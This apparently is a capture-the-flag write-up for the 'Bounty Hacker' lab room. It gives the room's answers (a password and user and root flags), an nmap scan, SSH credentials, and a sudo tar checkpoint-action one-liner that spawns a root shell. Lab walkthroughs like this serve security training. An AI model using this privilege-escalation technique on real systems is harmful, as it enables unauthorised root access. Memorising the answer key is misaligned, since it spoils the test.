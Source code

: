 # Bounty Hacker
##### Question 1: Who wrote the task list?
Answer
```bash
lin
```

##### Question 2: What service can you bruteforce with the text file found?
Answer
```bash
ssh
```

##### Question 3: What is the users password?
Answer
```bash
RedDr4gonSynd1cat3
```

##### Question 4: user.txt
Answer
```bash
THM{CR1M3_SyNd1C4T3}
```

##### Question 5: root.txt
Answer
```bash
THM{80UN7Y_h4cK3r}
```

- - - - - - - - - - - - - - - - - - - - -  - - - - - - 

Nmap Scan:
```bash

Nmap scan report for 10.10.199.184
Host is up (0.11s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```

ssh creds
lin:RedDr4gonSynd1cat3

```bash

privesc - sudo tar

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```